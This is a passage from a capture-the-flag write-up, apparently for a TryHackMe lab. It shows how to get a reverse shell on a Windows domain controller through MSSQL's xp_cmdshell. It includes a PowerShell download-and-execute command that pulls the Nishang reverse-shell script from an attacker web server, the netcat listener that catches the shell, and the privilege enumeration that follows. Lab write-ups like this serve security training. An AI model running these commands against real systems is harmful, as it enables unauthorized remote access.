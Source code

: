 That worked. Let's try to get a reverse shell. I found [this](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell) article that helped.

First start a webserver:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Get the Nishang reverse shell from [here](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1). Edit it and put this at end:

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.8.165.116 -Port 1337
```

Start netcat listening on port 1337 waiting to catch our shell:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# nc -nlvp 1337
listening on [any] 1337 ...
```

## Nishang Reverse Shell

Now go back to our SQL session and use it to call our reverse shell:

```text
SQL> xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.8.165.116/Invoke-PowerShellTcp.ps1\")
```

Switch back to our nc listener to see we are connected:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.13.199] 50190
Windows PowerShell running as user SVC-Kerb on DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Windows\system32>
```

Let's check who are and our permissions:

```text
PS C:\Windows\system32>whoami
dc01\svc-kerb

PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32> 
```

